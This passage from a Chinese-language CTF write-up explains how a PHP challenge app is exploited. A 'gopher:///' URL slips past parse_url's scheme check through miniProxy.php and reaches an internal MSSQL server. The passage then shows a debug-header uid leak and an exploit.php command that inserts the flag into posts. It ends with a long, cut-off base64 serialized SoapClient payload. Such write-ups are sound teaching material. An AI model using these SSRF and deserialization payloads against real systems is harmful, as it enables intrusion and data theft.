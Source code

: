 那有没有这样的url,是libcurl可以发送出请求的，并且经过`parse_url`处理返回的`$scheme`还是空的呢？
当然是有的，在这个题目[https://github.com/wonderkun/CTF_web/blob/master/php4fun/challenge9.php](https://github.com/wonderkun/CTF_web/blob/master/php4fun/challenge9.php?1547104810063)中我们就遇到过。

```
php > var_dump(parse_url("http:///www.baidu.com"));
bool(false)
```
所以可以利用`/miniProxy.php?gopher:///`来绕过协议的限制，向mssql发送数据。

### 0x5 利用gopher协议打mssql

最后就是利用gopher来打mssql了，因为mssql的通讯协议不想自己抓了，用官方的`exploit.php`。
需要先找到自己的uid:

```php
#filename:bootstrap.php

} else if (isset($_SESSION["username"])) {
    $USER = new User($_SESSION["username"], $_SESSION["password"]);
    if (isset($_SERVER["HTTP_DEBUG"])) var_dump($USER);
}

```
添加一个`DEBUG`头，就看到自己的uid了。

![http://pic.wonderkun.cc/uploads/2019/01/2019-01-10-15-52-35.png](http://pic.wonderkun.cc/uploads/2019/01/2019-01-10-15-52-35.png)

然后构造payload:

```php
php exploit.php  "insert into posts(userid,title,content,attachment) values (1,\"test\",(select flag
from flag.flag),\"test\");"

JHNlcmlhbGl6ZWRvYmplY3TvvIRPOjEwOiJBdHRhY2htZW50IjoxOntzOjI6InphIjtPOjEwOiJTb2FwQ2xpZW50IjozOntzOjM6InVyaSI7czozNToiaHR0cDovL2x
vY2FsaG9zdDo4MDgwL21pbmlQcm94eS5waHAiO3M6ODoibG9jYXRpb24iO3M6MzU6Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MC9taW5pUHJveHkucGhwIjtzOjExOiJfdX
Nlcl9hZ2VudCI7czoxMzQ5OiJBQUFBQUhhaGEKCkdFVCAvbWluaVByb3h5LnBocD9nb3BoZXI6Ly8vZGI6MTQzMy9BJTEyJTAxJTAwJTJGJTAwJTAwJTAxJTAwJTAwJ
TAwJTFBJTAwJTA2JTAxJTAwJTIwJTAwJTAxJTAyJTAwJTIxJTAwJTAxJTAzJTAwJTIyJTAwJTA0JTA0JTAwJTI2JTAwJTAxJUZGJTAwJTAwJTAwJTAxJTAwJTAxJTAy
JTAwJTAwJTAwJTAwJTAwJTAwJTEwJTAxJTAwJURFJTAwJTAwJTAxJTAwJUQ2JTAwJTAwJTAwJTA0JTAwJTAwdCUwMCUxMCUwMCUwMCUwMCUwMCUwMCUwMFQwJTAwJTA
wJTAwJTAwJTAwJTAwJUUwJTAwJTAwJTA4JUM0JUZGJUZGJUZGJTA5JTA0JTAwJTAwJTVFJTAwJTA3JTAwbCUwMCUwQSUwMCU4MCUwMCUwOCUwMCU5MCUwMCUwQSUwMC
VBNCUwMCUwOSUwMCVCNiUwMCUwMCUwMCVCNiUwMCUwNyUwMCVDNCUwMCUwMCUwMCVDNCUwMCUwOSUwMCUwMSUwMiUwMyUwNCUwNSUwNiVENiUwMCUwMCUwMCVENiUwM
CUwMCUwMCVENiUwMCUwMCUwMCUwMCUwMCUwMCUwMGElMDB3JTAwZSUwMHMlMDBvJTAwbSUwMGUlMDBjJTAwaCUwMGElMDBsJTAwbCUwMGUlMDBuJTAwZyUwMGUlMDBy
JTAwJUMxJUE1UyVBNVMlQTUlODMlQTUlQjMlQTUlODIlQTUlQjYlQTUlQjclQTVuJTAwbyUwMGQlMDBlJTAwLSUwMG0lMDBzJTAwcyUwMHElMDBsJTAwbCUwMG8lMDB
jJTAwYSUwMGwlMDBoJTAwbyUwMHMlMDB0JTAwVCUwMGUlMDBkJTAwaSUwMG8lMDB1JTAwcyUwMGMlMDBoJTAwYSUwMGwlMDBsJTAwZSUwMG4lMDBnJTAwZSUwMCUwMS
UwMSUwMCVGQyUwMCUwMCUwMSUwMCUxNiUwMCUwMCUwMCUxMiUwMCUwMCUwMCUwMiUwMCUwMCUwMCUwMCUwMCUwMCUwMCUwMCUwMCUwMSUwMCUwMCUwMGklMDBuJTAwc
yUwMGUlMDByJTAwdCUwMCUyMCUwMGklMDBuJTAwdCUwMG8lMDAlMjAlMDBwJTAwbyUwMHMlMDB0JTAwcyUwMCUyOCUwMHUlMDBzJTAwZSUwMHIlMDBpJTAwZCUwMCUy
QyUwMHQlMDBpJTAwdCUwMGwlMDBlJTAwJTJDJTAwYyUwMG8lMDBuJTAwdCUwMGUlMDBuJTAwdCUwMCUyQyUwMGElMDB0JTAwdCUwMGElMDBjJTAwaCUwMG0lMDBlJTA
wbiUwMHQlMDAlMjklMDAlMjAlMDB2JTAwYSUwMGwlMDB1JTAwZSUwMHMlMDAlMjAlMDAlMjglMDAxJTAwJTJDJTAwJTIyJTAwdCUwMGUlMDBzJTAwdCUwMCUyMiUwMC
UyQyUwMCUyOCUwMHMlMDBlJTAwbCUwMGUlMDBjJTAwdCUwMCUyMCUwMGYlMDBsJTAwYSUwMGclMDAlMjAlMDBmJTAwciUwMG8lMDBtJTAwJTIwJTAwZiUwMGwlMDBhJ
```